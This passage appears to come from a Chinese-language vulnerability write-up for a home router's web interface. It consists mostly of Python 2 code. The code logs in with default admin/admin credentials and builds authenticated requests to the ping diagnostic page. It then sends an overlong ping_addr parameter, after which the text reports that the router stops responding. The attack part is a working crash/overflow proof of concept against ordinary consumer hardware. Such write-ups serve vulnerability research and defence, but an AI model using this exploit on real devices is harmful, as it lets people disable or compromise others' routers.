 ```py
  return (next_url,encode_string)
if __name__ == '__main__':
    data=login('192.168.0.1','admin','admin')
```
- 继续访问存在漏洞的页面</b>![](./img/vul-page.png)
  - 构造请求包
```py
def exploit(url,encode_string):
  new_url=url+'/userRpm/PingIframeRpm.htm'
  request=urllib2.Request(new_url)
  request.add_header('Referer',url+'/userRpm/DiagnosticRpm.htm')
  request.add_header('Cookie','Authorization=Basic %s'%encode_string)
  response = urllib2.urlopen(request)
```

- 根据ping爆构造数据包，测试服务器是否崩溃</b>![](./img/ping-page.png)
```py
  data=51*'a'
  next_url=url+'/userRpm/PingIframeRpm.htm?ping_addr='+data+'&doType=ping&isNew=new&sendNum=4&pSize=64&overTime=800&trHops=20'
  request=urllib2.Request(next_url)
  request.add_header('Referer',url+'/userRpm/DiagnosticRpm.htm')
  request.add_header('Cookie','Authorization=Basic %s'%encode_string)
  response = urllib2.urlopen(request)
```
- 可以看到服务器已无法响应